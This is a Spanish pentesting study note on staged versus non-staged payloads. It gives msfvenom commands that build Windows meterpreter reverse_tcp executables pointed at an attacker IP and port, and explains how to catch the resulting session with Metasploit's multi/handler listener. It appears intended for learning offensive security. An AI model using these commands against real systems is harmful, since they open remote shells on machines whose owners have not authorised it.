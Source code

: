 #Explotacion 
## Staged
#### Definición

>Es un tipo de payload que se **divide en dos** **o más etapas**. La primera etapa es una pequeña parte del código que se envía al objetivo, cuyo propósito es establecer una conexión segura entre el atacante y la máquina objetivo. Una vez que se establece la conexión, el atacante envía la segunda etapa del payload, que es la carga útil real del ataque. Este enfoque permite a los atacantes sortear medidas de seguridad adicionales, ya que la carga útil real no se envía hasta que se establece una conexión segura.
>------

Podemos usar la herramienta [[MSFVENOM]] y luego con [[METASPLOIT]] poniéndonos en escucha obtendremos nuestra shell.
Con la opción `-p` seleccionamos el tipo de payload, con `-f` el tipo de fichero, con `-o` como quieres que te lo exporte, `LHOST=` cargamos la IP de la maquia atacantes, con `LPORT=` el puerto en el que estaremos en escucha, `--platform` para seleccionar el OS y `-a` para indicar la arquitectura por ejemplo `-a x64`. 

Un ejemplo hacia una maquina Windows seria el siguiente.
```shell
msfvenom -p windows/x64/meterpreter/reverse_tcp --platform windows -a x64 LHOST=<IP_Atacante> LPORT=<Puerto> -f exe -o reverse.exe
```

Nos creara un ejecutable que lo tendremos que transferir a la maquina victima para poder ejecutarlo en ella.
Deberemos de ejecutar [[METASPLOIT]] y crear un listener que es desde donde estaremos en escucha.
Tenemos que usar el exploit de multihandeler
```shell
use exploit/multi/handler
```

Dentro de este exploit tendremos que configurar el puerto de escucha (el mismo que el payload) y la IP de nuestra maquina atacante (la misma que el payload) también deberemos de cargar el payload que hemos usado y ejecutar el exploit, lo que nos pondrá en escucha.
Una vez que hayamos ejecutado el payload habremos obtenido una sesión de meterpreter.

## Non-Staged
#### Definición

>Es un tipo de payload que se envía como **una sola entidad** y **no se divide en múltiples etapas**. La carga útil completa se envía al objetivo en un solo paquete y se ejecuta inmediatamente después de ser recibida. Este enfoque es más simple que el Payload Staged, pero también es más fácil de detectar por los sistemas de seguridad, ya que se envía todo el código malicioso de una sola vez.
>---------------------

Para que sea d este tipo lo único que cambia es la forma de crear el payload con [[MSFVENOM]]
```shell
msfvenom -p windows/x64/meterpreter_reverse_tcp --platform windows -a x64 LHOST=<IP_Atacante> LPORT=<Puerto> -f exe -o reverse.exe
```